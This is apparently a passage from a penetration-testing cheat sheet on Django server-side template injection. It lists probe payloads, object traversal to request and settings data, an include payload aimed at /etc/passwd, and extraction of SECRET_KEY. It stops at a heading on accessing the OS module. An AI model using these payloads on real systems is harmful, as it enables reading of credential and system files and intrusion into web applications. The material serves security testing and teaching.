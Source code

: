 Test for basic template injection by trying to evaluate expressions:

```
{{ 7*7 }}
{{ request }}
{% debug %}
```

## Common Django SSTI Vectors

### 1. Template Variable Access

Django restricts access to many dangerous attributes, but you can traverse objects:

```
{{ request }}
{{ request.META }}
{{ request.environ }}
{{ settings }}
```

### 2. Template Tags Exploitation

```
{% debug %}
{% if 1 == 1 %}Vulnerable{% endif %}
```

### 3. Template Filters

```
{{ "test"|upper }}
{{ 42|add:7 }}
```

### 4. Template Loading

If `{% include %}` or `{% extends %}` is used with user input:

```
{% include "/etc/passwd" %}
```

## RCE Techniques

Django is designed to prevent direct code execution, but there are bypass techniques:

### Accessing Settings

```
{{ settings.SECRET_KEY }}
```

### Accessing OS Module
